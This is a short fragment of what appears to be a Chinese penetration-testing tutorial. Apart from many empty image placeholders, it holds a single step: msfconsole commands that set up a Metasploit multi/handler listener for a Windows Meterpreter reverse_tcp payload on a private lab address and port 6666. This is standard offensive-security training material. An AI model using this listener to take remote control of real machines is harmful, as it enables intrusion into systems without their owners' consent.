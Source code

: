 ![]( "")  
![]( "")  
![]( "")  
![]( "")  
![]( "")  
  
### （一）MSF 基础配置  
  
  
在msfconsole中进行如下配置：  

```
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.239.198
set lport 6666
run
```

  
![image.png](https://mmbiz.qpic.cn/mmbiz_png/UkV8WB2qYAnhWxXouRERibEhicQibSErZysWbMxvG1wj3NahHbVDIqkpeWfT9GDju7snBurf2qaOXUFvoMlQ2xpOw/640?wx_fmt=png&from=appmsg "")  
![]( "")  
![]( "")  
![]( "")  
![]( "")  
![]( "")  
![]( "")  
![]( "")  
![]( "")  
![]( "")  
![]( "")  
![]( "")  
![]( "")  
![]( "")  
![]( "")  
![]( "")  
![]( "")  
![]( "")  
![]( "")  
![]( "")  
  